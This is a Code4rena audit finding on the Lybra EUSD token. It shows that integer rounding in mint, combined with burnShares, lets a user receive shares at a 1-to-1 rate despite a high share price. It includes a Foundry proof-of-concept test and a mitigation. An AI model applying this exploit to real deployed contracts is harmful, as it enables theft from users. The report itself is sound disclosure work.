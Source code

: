 ## Tags

- bug
- 3 (High Risk)
- high quality report
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- edited-by-warden
- H-06

# [EUSD.mint function wrong assumption of cases when calculated sharesAmount = 0](https://github.com/code-423n4/2023-06-lybra-findings/issues/106) 

# Lines of code

https://github.com/code-423n4/2023-06-lybra/blob/main/contracts/lybra/token/EUSD.sol#L299-#L306
https://github.com/code-423n4/2023-06-lybra/blob/main/contracts/lybra/token/EUSD.sol#L414-#L418


# Vulnerability details

## Impact
- Mint function might calculate the sharesAmount incorrectly.
- User can profit by manipulating the protocol to enjoy 1-1 share-eUSD ratio even when share prices
 is super high.

## Proof of Concept
Currently, the function `EUSD.mint` calls function `EUSD.getSharesByMintedEUSD` to calculate the shares corresponding to the input eUSD amount:
```solidity
function mint(address _recipient, uint256 _mintAmount) external onlyMintVault MintPaused returns (uint256 newTotalShares) {
        require(_recipient != address(0), "MINT_TO_THE_ZERO_ADDRESS");

        uint256 sharesAmount = getSharesByMintedEUSD(_mintAmount);
        if (sharesAmount == 0) {
            //EUSD totalSupply is 0: assume that shares correspond to EUSD 1-to-1
            sharesAmount = _mintAmount;
        }
        ...
}
function getSharesByMintedEUSD(uint256 _EUSDAmount) public view returns (uint256) {
        uint256 totalMintedEUSD = _totalSupply;
        if (totalMintedEUSD == 0) {
            return 0;
        } else {
            return _EUSDAmount.mul(_totalShares).div(totalMintedEUSD);
        }
}
```
As you can see in the comment after `sharesAmount` is checked, `//EUSD totalSupply is 0: assume that shares correspond to EUSD 1-to-1`. The code assumes that if `sharesAmount = 0`, then `totalSupply` must be 0 and the minted share should equal to input eUSD. However, that's not always the case.

Variable `sharesAmount` could be 0 if `totalShares *_EUSDAmount` < `totalMintedEUSD` because this is integer division. If that happens, the user will profit by calling mint with a small EUSD amount and enjoys 1-1 minting proportion (1 share for each eUSD). The reason this can happen is because `EUSD` support `burnShares` feature, which remove the share of a users but keep the `totalSupply` value.

For example:
1. At the start, Bob is minted 1e18 eUSD, he receives 1e18 shares
2. Bob call `burnShares` by `1e18-1`, after this, contract contains 
    1e18 eUSD and 1 share, which mean 1 share now worth 1e18 eUSD
3. If Alice calls `mint` with 1e18 eUSD, then she receives 1 share (since 1 share worth
   1e18 eUSD)
4. However, if she then calls `mint` with 1e17 eUSD, she will receives 1e17 shares although
    1 share now worth 1e18 eUSD. This happens because `1e17 * (totalShares = 2) / (totalMintedEUSD = 2e18)` = 0

Below is POC for the above example, I use foundry to run tests, create
a folder named `test` and save this to a file named `eUSD.t.sol`, then run it using command:

`forge test --match-path test/eUSD.t.sol -vvvv`

```solidity
pragma solidity ^0.8.17;

import {Test, console2} from "forge-std/Test.sol";
import {Iconfigurator} from "contracts/lybra/interfaces/Iconfigurator.sol";
import {Configurator} from "contracts/lybra/configuration/LybraConfigurator.sol";
import {GovernanceTimelock} from "contracts/lybra/governance/GovernanceTimeLock.sol";
import {mockCurve} from "contracts/mocks/mockCurve.sol";
import {EUSD} from "contracts/lybra/token/EUSD.sol";

contract TestEUSD is Test {
    address admin = address(0x1111);
    address user1 = address(0x1);
    address user2 = address(0x2);
    address pool = address(0x3);

    Configurator configurator;
    GovernanceTimelock governanceTimeLock;
    mockCurve curve;
    EUSD eUSD;



    function setUp() public{
        // deploy curve
        curve = new mockCurve();
        // deploy governance time lock
        address[] memory proposers = new address[](1);
        proposers[0] = admin;

        address[] memory executors = new address[](1);
        executors[0] = admin;

        governanceTimeLock = new GovernanceTimelock(1, proposers, executors, admin);
        configurator = new Configurator(address(governanceTimeLock), address(curve));

        eUSD = new EUSD(address(configurator));
        // set mintVault to this address
        vm.prank(admin);
        configurator.setMintVault(address(this), true);
    }

    function testRoundingNotCheck() public {
        // Mint some tokens for user1
        eUSD.mint(user1, 1e18);

        assertEq(eUSD.balanceOf(user1), 1e18);
        assertEq(eUSD.totalSupply(), 1e18);

        //
        eUSD.burnShares(user1, 1e18-1);

        assertEq(eUSD.getTotalShares(),1);
        assertEq(eUSD.sharesOf(user1), 1);
        assertEq(eUSD.totalSupply(), 1e18);

        // After this, 1 shares worth 1e18 eUSDs
        // If mintAmount = 1e18 -> receive  1 shares

        eUSD.mint(user2, 1e18);
        assertEq(eUSD.getTotalShares(), 2);
        assertEq(eUSD.sharesOf(user2), 1);
        assertEq(eUSD.totalSupply(), 2e18);

        // However, if mintAmount = 1e17 -> receive 1e17 shares

        eUSD.mint(user2, 1e17);

        assertEq(eUSD.sharesOf(user2), 1 + 1e17);


    }

}
```

## Tools Used
Manual Review

## Recommended Mitigation Steps
I recommend checking again in `EUSD.mint` function if `sharesAmount` is 0
and `totalSupply` is not 0, then exit the function without minting anything.











## Assessed type

Math